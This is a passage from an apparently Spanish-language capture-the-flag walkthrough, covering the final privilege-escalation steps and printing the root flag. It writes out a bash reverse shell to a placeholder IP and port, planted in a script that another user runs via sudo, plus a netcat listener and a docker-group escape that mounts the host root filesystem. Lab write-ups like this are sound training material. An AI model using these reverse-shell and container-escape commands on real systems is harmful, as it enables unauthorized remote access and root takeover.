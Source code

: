 Teniendo todos los permisos modificamos el archivo de la siguiente manera...

```shell
nano .helpline.sh

#Dentro del nano
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y despues de hacer estas modificaciones...

```shell
nc -lvnp <PORT>
```

```shell
sudo -u apaar /home/apaar/.helpline.sh
```

Con esto ya tendriamos una shell como `apaar`...

Si ponemos el siguiente comando...

```shell
id anurodh
```

```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

```shell
docker ps -a
```

```
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS                   PORTS               NAMES
9b859d23108f        hello-world         "/hello"            3 years ago         Exited (0) 3 years ago                       quizzical_perlman
```

```shell
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

Con esto ya seriamos `root` por lo que leemos la flag...

> proof.txt (ultima\_flag)

```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```
